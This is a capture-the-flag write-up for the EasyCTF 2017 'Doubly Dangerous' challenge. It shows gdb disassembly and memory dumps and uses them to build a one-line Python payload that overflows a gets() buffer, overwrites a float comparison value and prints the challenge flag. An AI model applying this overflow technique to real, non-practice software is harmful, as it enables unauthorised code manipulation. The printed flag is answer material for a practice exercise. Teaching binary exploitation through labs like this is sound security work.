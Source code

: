 # Doubly Dangerous
picoctf 
-Disclaimer("This writeup is from VoidMercy's https://github.com/VoidMercy/EasyCTF-Writeups-2017/tree/master/binexploit/Doubly%20Dangerous")

"There seems to be an issue with this binary. Can you exploit it?"

< filelink : https://github.com/EasyCTF/easyctf-2017-problems/blob/master/doubly-dangerous/doubly_dangerous?raw=true >

the task gave me an .ELF file, first thing to do is to run it :

```
root@localhost:~/Downloads/New folder# ./doubly_dangerous
Give me a string: 
tekdung 
nope!
root@localhost:~/Downloads/New folder# 
```

this time i tried to give a  l a r g e  input :


```
root@localhost:~/Downloads/New folder# ./doubly_dangerous
Give me a string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
nope!
Segmentation fault
```

it was a buffer overflow, and the porgram referencing to a restricted memory, but we need more clue, so lets start dissas the program using gdb 

```
Dump of assembler code for function main:
   0x08048607 <+0>:	lea    ecx,[esp+0x4]
   0x0804860b <+4>:	and    esp,0xfffffff0
   0x0804860e <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048611 <+10>:	push   ebp
   0x08048612 <+11>:	mov    ebp,esp
   0x08048614 <+13>:	push   ecx
   0x08048615 <+14>:	sub    esp,0x54
   0x08048618 <+17>:	fldz   
   0x0804861a <+19>:	fstp   DWORD PTR [ebp-0xc]
   0x0804861d <+22>:	sub    esp,0xc
   0x08048620 <+25>:	push   0x8048735
   0x08048625 <+30>:	call   0x8048410 <puts@plt>
   0x0804862a <+35>:	add    esp,0x10
   0x0804862d <+38>:	sub    esp,0xc
   0x08048630 <+41>:	lea    eax,[ebp-0x4c]
   0x08048633 <+44>:	push   eax
   0x08048634 <+45>:	call   0x80483e0 <gets@plt>
=> 0x08048639 <+50>:	add    esp,0x10
   0x0804863c <+53>:	fld    DWORD PTR [ebp-0xc]
   0x0804863f <+56>:	fld    DWORD PTR ds:0x804876c
   0x08048645 <+62>:	fucomip st,st(1)
   0x08048647 <+64>:	jp     0x804866c <main+101>
   0x08048649 <+66>:	fld    DWORD PTR ds:0x804876c
```
i found something interesting, the program is using fucomip wich means a compare floating points instruction.
since the program is comparing, i assume that the comparisons must return true.

```
0x0804863c <+53>:	fld    DWORD PTR [ebp-0xc]
0x0804863f <+56>:	fld    DWORD PTR ds:0x804876c
0x08048645 <+62>:	fucomip st,st(1)
```

the program is referencing the variable ebp-0xc, we need to find the value until the value ebp-0xc overflow :

```
python -c "print 'a'*60" > weq
---------------------------------------------------------------
(gdb) r < weq
---------------------------------------------------------------
Breakpoint 2, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd31c:	0x00000000	0xf7f8f3fc	0xffffd340	0x00000000
0xffffd32c:	0xf7dd7793	0xf7f8f000	0xf7f8f000	0x00000000
0xffffd33c:	0xf7dd7793	0x00000001
```
meh

```
python -c "print 'a'*65" > weq
---------------------------------------------------------------
Breakpoint 2, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd31c:	0x00000061	0xf7f8f3fc	0xffffd340	0x00000000
0xffffd32c:	0xf7dd7793	0xf7f8f000	0xf7f8f000	0x00000000
0xffffd33c:	0xf7dd7793	0x00000001
```
ayyy

```
it is found that 65 character overflow the ebp-0xc
```
now to access the ebp-0xc memory, we need 64 character.
and the find the value that need to be replaced.

```
(gdb) x/10wx 0x804876c
0x804876c:	0x41348000	0x3b031b01	0x00000030	0x00000005
0x804877c:	0xfffffc60	0x0000004c	0xfffffe0b	0x00000070
0x804878c:	0xfffffe97	0x00000090
```

the value we need is 0x41348000. Thus, we can create our exploit

```
root@localhost:~/Downloads/New folder# python -c "print 'a'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
Give me a string: 
Success! Here is your flag:
Failed to open flag file! //-------> easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

# Flag

```
easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

